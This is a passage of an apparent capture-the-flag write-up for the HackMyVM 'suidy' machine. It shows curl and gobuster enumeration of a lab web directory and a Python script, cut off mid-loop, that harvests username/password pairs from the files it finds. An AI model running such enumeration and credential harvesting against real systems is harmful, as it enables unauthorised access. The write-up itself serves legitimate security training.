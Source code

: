 ```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ curl http://192.168.1.103/shehatesme/
She hates me because I FOUND THE REAL SECRET!
I put in this directory a lot of .txt files.
ONE of .txt files contains credentials like "theuser/thepass" to access to her system!
All that you need is an small dict from Seclist!
```

This message indicated that there were many `.txt` files in the `/shehatesme/` directory, and one of them contained credentials in the format "theuser/thepass". I used `gobuster` again to find these `.txt` files.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ gobuster dir -u http://192.168.1.103/shehatesme/ -w ../../wordlists/common.txt -x txt
# ... (truncated output) ...
/2001.txt             (Status: 200) [Size: 16]
/about.txt            (Status: 200) [Size: 16]
/admin.txt            (Status: 200) [Size: 16]
/art.txt              (Status: 200) [Size: 16]
/blog.txt             (Status: 200) [Size: 16]
# ... (many other .txt files) ...
/secret.txt           (Status: 200) [Size: 16]
/smilies.txt          (Status: 200) [Size: 16]
/space.txt            (Status: 200) [Size: 16]
/welcome.txt          (Status: 200) [Size: 16]
# ... (truncated output) ...
```

I then wrote a Python script to fetch the content of all these `.txt` files and extract potential usernames and passwords.

```python
import requests

url = "http://192.168.1.103/shehatesme"
files = [
    "/welcome.txt", "/space.txt", "/smilies.txt", "/secret.txt", "/search.txt",
    "/privacy.txt", "/page.txt", "/other.txt", "/new.txt", "/network.txt",
    "/link.txt", "/jobs.txt", "/java.txt", "/issues.txt", "/guide.txt",
    "/google.txt", "/full.txt", "/forums.txt", "/folder.txt", "/faqs.txt",
    "/es.txt", "/blog.txt", "/art.txt", "/admin.txt", "/about.txt", "/2001.txt"
]

users = []
passwords = []

for file in files:
    res = requests.get(url + file)
    if res.status_code == 200 and '/' in res.text:
        try:
            user, password = res.text.strip().split('/')
            users.append(user)
            passwords.append(password)
        except ValueError:
            # Handle cases where split might not return two parts
            pass

# Remove duplicates and print unique credentials
unique_credentials = set()
for i in range(len(users)):
    unique_credentials.add(f"{users[i]}/{passwords[i]}")

print("Unique Credentials Found:")
for cred in unique_credentials:
```